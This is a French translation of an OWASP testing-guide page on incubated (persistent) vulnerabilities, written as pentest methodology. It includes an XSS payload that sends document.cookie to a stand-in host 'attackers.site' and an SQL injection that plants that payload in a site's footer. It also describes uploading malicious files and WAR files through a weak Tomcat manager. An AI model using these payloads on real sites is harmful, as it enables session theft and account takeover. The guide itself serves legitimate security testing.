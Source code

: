 # Tester la vulnérabilité incubée

|ID          |
|------------|
|WSTG-INPV-14|

## Sommaire

Aussi souvent appelés attaques persistantes, les tests incubés sont une méthode de test complexe qui nécessite plus d'une vulnérabilité de validation des données pour fonctionner. Les vulnérabilités incubées sont généralement utilisées pour mener des attaques "point d'eau" contre les utilisateurs d'applications Web légitimes.

Les vulnérabilités incubées ont les caractéristiques suivantes :

- Le vecteur d'attaque doit être persistant en premier lieu, il doit être stocké dans la couche de persistance, et cela ne se produirait que si une validation de données faible était présente ou si les données arrivaient dans le système via un autre canal tel qu'une console d'administration ou directement via un traitement par lots backend.
- Deuxièmement, une fois que le vecteur d'attaque a été "rappelé", le vecteur doit être exécuté avec succès. Par exemple, une attaque XSS incubée nécessiterait une validation de sortie faible afin que le script soit livré au client sous sa forme exécutable.

L'exploitation de certaines vulnérabilités, ou même de fonctionnalités fonctionnelles d'une application Web, permettra à un attaquant d'implanter une donnée qui sera ensuite récupérée par un utilisateur ou un autre composant du système sans méfiance, exploitant une vulnérabilité à cet endroit.

Dans un test de pénétration, les "attaques incubées" peuvent être utilisées pour évaluer la criticité de certains bogues, en utilisant le problème de sécurité particulier trouvé pour créer une attaque côté client qui sera généralement utilisée pour cibler un grand nombre de victimes en même temps. (c'est-à-dire tous les utilisateurs naviguant sur le site).

Ce type d'attaque asynchrone couvre un large spectre de vecteurs d'attaque, parmi lesquels :

- Composants de téléchargement de fichiers dans une application Web, permettant à l'attaquant de télécharger des fichiers multimédias corrompus (images JPEG exploitant `CVE-2004-0200`, images PNG exploitant `CVE-2004-0597`, fichiers exécutables, pages de site avec composant actif, etc. .)
- Problèmes de script intersite dans les messages des forums publics (voir [Test pour le script intersite stocké](02-Testing_for_Stored_Cross_Site_Scripting.md) pour plus de détails). Un attaquant pourrait potentiellement stocker des scripts ou du code malveillants dans un référentiel dans le backend de l'application Web (par exemple, une base de données) afin que ce script/code soit exécuté par l'un des utilisateurs (utilisateurs finaux, administrateurs, etc.). L'archétype de l'attaque incubée est illustré par l'utilisation d'une vulnérabilité de script intersite dans un forum d'utilisateurs, un babillard ou un blog afin d'injecter du code JavaScript sur la page vulnérable, et sera finalement rendu et exécuté sur le navigateur de l'utilisateur du site -- en utilisant le niveau de confiance du site d'origine (vulnérable) sur le navigateur de l'utilisateur.
- Injection SQL/XPATH permettant à l'attaquant de télécharger du contenu dans une base de données, qui sera ensuite récupéré dans le cadre du contenu actif d'une page Web. Par exemple, si l'attaquant peut publier du code JavaScript arbitraire dans un tableau d'affichage afin qu'il soit exécuté par les utilisateurs, il peut alors prendre le contrôle de leurs navigateurs (par exemple, [XSS-proxy](http://sourceforge.net/projects/xss-Procuration)).
- Serveurs mal configurés permettant l'installation de packages Java ou de composants de site Web similaires (c'est-à-dire Tomcat ou des consoles d'hébergement Web telles que Plesk, CPanel, Helm, etc.)

## Objectifs des tests

- Identifier les injections qui sont stockées et nécessitent une étape de rappel à l'injection stockée.
- Comprendre comment une étape de rappel peut se produire.
- Réglez les écouteurs ou activez l'étape de rappel si possible.

## Comment tester

### Test de la boîte noire

#### Exemple de téléchargement de fichier

Vérifiez le type de contenu autorisé à télécharger sur l'application Web et l'URL résultante pour le fichier téléchargé. Téléchargez un fichier qui exploitera un composant dans le poste de travail de l'utilisateur local lorsqu'il sera visualisé ou téléchargé par l'utilisateur. Envoyez à votre victime un e-mail ou une autre sorte d'alerte afin de l'amener à parcourir la page. Le résultat attendu est que l'exploit sera déclenché lorsque l'utilisateur navigue sur la page résultante ou télécharge et exécute le fichier à partir du site de confiance.

#### Exemple XSS sur un tableau d'affichage

1. Entrez le code JavaScript comme valeur pour le champ vulnérable, par exemple `<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">' )</script>`
2. Demandez aux utilisateurs de parcourir la page vulnérable ou attendez que les utilisateurs la parcourent. Avoir un "auditeur" sur l'hôte `attackers.site` à l'écoute de toutes les connexions entrantes.
3. Lorsque les utilisateurs naviguent sur la page vulnérable, une requête contenant leur cookie (`document.cookie` est inclus dans l'URL demandée) sera envoyée à l'hôte `attackers.site`, par exemple : `GET /cv.jpg ?SignOn=COOKIEVALUE1 ; %20ASPSESSIONID=ROGUEIDVALUE ; HTTP/1.1`
4. Utilisez les cookies obtenus pour usurper l'identité des utilisateurs du site vulnérable.

#### Exemple d'injection SQL

Habituellement, cet ensemble d'exemples exploite les attaques XSS en exploitant une vulnérabilité d'injection SQL. La première chose à tester est de savoir si le site cible présente une vulnérabilité d'injection SQL. Ceci est décrit dans [Testing for SQL Injection](05-Testing_for_SQL_Injection.md). Pour chaque vulnérabilité d'injection SQL, il existe un ensemble sous-jacent de contraintes décrivant le type de requêtes que l'attaquant/pentesteur est autorisé à effectuer.

Le testeur doit ensuite faire correspondre les attaques XSS qu'il a conçues avec les entrées qu'il est autorisé à insérer.

De la même manière que dans l'exemple XSS précédent, utilisez un champ de page Web vulnérable aux problèmes d'injection SQL pour modifier une valeur dans la base de données qui serait utilisée par l'application comme entrée à afficher sur le site sans filtrage approprié (ce serait une combinaison d'une injection SQL et d'un problème XSS). Par exemple, supposons qu'il y ait une table `footer` dans la base de données avec tous les pieds de page des pages du site Web, y compris un champ `notice` avec la mention légale qui apparaît au bas de chaque page Web. Vous pouvez utiliser la requête suivante pour injecter du code JavaScript dans le champ "notice" de la table "footer" de la base de données.

```sql
SELECT field1, field2, field3
FROM table_x
WHERE field2 = 'x';
   UPDATE footer
   SET notice = 'Copyright 1999-2030%20
       <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'
   WHERE notice = 'Copyright 1999-2030';
```

Désormais, chaque utilisateur naviguant sur le site enverra silencieusement ses cookies au `attaquants.site`.

#### Serveur mal configuré

Certains serveurs web présentent une interface d'administration qui peut permettre à un attaquant d'uploader sur le site des composants actifs de son choix. Cela pourrait être le cas avec un serveur Apache Tomcat qui n'impose pas d'informations d'identification fortes pour accéder à son gestionnaire d'applications Web (ou si les testeurs de stylo ont pu obtenir des informations d'identification valides pour le module d'administration par d'autres moyens).

Dans ce cas, un fichier WAR peut être téléchargé et une nouvelle application Web déployée sur le site, ce qui permettra non seulement au testeur d'intrusion d'exécuter le code de son choix localement sur le serveur, mais également de planter une application sur le site de confiance, auxquels les utilisateurs réguliers du site peuvent alors accéder (très probablement avec un degré de confiance plus élevé que lorsqu'ils accèdent à un autre site).

Comme cela devrait également être évident, la possibilité de modifier le contenu de la page Web sur le serveur, via toutes les vulnérabilités pouvant être exploitées sur l'hôte qui donneront à l'attaquant des autorisations d'écriture webroot, sera également utile pour lancer une telle attaque incubée sur le serveur Web. pages (en fait, il s'agit d'une méthode de propagation d'infection connue pour certains vers de serveur Web).

### Test de la boîte grise

Les techniques de test en boîte grise ou en boîte blanche seront les mêmes que celles décrites précédemment.

- L'examen de la validation des entrées est essentiel pour atténuer cette vulnérabilité. Si d'autres systèmes de l'entreprise utilisent la même couche de persistance, leur validation des entrées peut être faible et les données peuvent être conservées via une "porte dérobée".
- Pour lutter contre le problème de "porte dérobée" pour les attaques côté client, la validation de sortie doit également être utilisée afin que les données entachées soient encodées avant d'être affichées sur le client, et donc pas exécutées.

## Outils

- [XSS-proxy](https://sourceforge.net/projects/xss-proxy)
- [Proxy d'attaque Zed OWASP (ZAP)](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Metasploit](https://www.metasploit.com/)

## Références

La plupart des références de la section Cross-site scripting sont valides. Comme expliqué ci-dessus, les attaques incubées sont exécutées lors de la combinaison d'exploits tels que XSS ou des attaques par injection SQL.

### Avis

- [Avis CERT CA-2000-02 Balises HTML malveillantes intégrées dans les requêtes Web des clients](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Blackboard Academic Suite 6.2.23 +/- : vulnérabilité de script intersite persistante](https://cxsecurity.com/issue/WLB-2006080004)

### Papiers blanc

- [Consortium de sécurité des applications Web "Classification des menaces, script intersite"](http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml)
